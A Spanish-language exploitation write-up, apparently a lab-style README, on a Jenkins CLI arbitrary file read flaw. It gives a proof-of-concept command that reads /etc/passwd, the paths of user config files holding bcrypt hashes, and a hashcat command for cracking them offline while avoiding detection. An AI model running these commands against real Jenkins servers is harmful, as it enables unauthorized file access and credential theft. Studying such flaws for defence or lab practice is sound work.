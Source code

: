 **Jenkins LFI Vulnerability (2024)**

🚨 **Este ataque permite la lectura de archivos arbitrarios desde el sistema de archivos del servidor Jenkins si la vulnerabilidad está presente.** 🚨

Jenkins es un servidor open source utilizado principalmente para la integración continua. Facilita la automatización de las tareas de desarrollo de software, permitiendo la entrega continua y la compilación de proyectos de forma eficiente. Si bien es una herramienta ampliamente usada, ciertos errores de configuración en versiones anteriores pueden ser aprovechados para obtener acceso no autorizado a archivos del sistema.

En versiones de Jenkins como 2.441 y anteriores (LTS 2.426.2 y anteriores), existe una vulnerabilidad que afecta al comando de análisis de archivos, permitiendo que un atacante no autenticado lea archivos arbitrarios del sistema de archivos de Jenkins al enviar una ruta maliciosa. Este comportamiento ocurre debido a que el analizador de comandos CLI no desactiva la función que reemplaza un carácter '@' seguido de una ruta de archivo con el contenido del archivo en cuestión.

**Proof of Concept (PoC):**

Para explotar esta vulnerabilidad, primero se utiliza el siguiente comando:
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/etc/passwd 2>&1 | grep -oP "'.*?'"
```

Este comando permite obtener el contenido de archivos del sistema al inyectar la ruta de un archivo en un parámetro del comando.

**Acceder a contraseñas cifradas:**

Una vez que tenemos acceso al sistema de archivos, podemos buscar archivos que contienen contraseñas cifradas. En el caso de Jenkins, la ruta donde se almacenan los archivos de configuración de los usuarios, incluida la contraseña cifrada, es dinámica. 

La ruta del archivo `users.xml` es común, y dentro de él, se encuentra la referencia a los archivos de configuración individuales de cada usuario:
```
/var/jenkins_home/users/users.xml
```

Con la información de `users.xml`, podemos ubicar el archivo de configuración de un usuario específico, que generalmente tendrá la siguiente ruta:
```
/var/jenkins_home/users/userrandom_12108429903186576833/config.xml
```

Dentro de este archivo, podemos encontrar la contraseña cifrada del usuario, generalmente en formato bcrypt.

**Cracking de la contraseña:**

El siguiente paso sería intentar crackear la contraseña utilizando herramientas como Hashcat. Dado que el identificador para bcrypt es **3200**, se puede utilizar el siguiente comando en Hashcat para intentar recuperar la contraseña en texto claro:
```
hashcat -m 3200 -a 0 <hashed_password_file> <wordlist>
```

Este ataque puede realizarse de forma offline, lo que hace que el proceso sea más seguro y menos detectable.
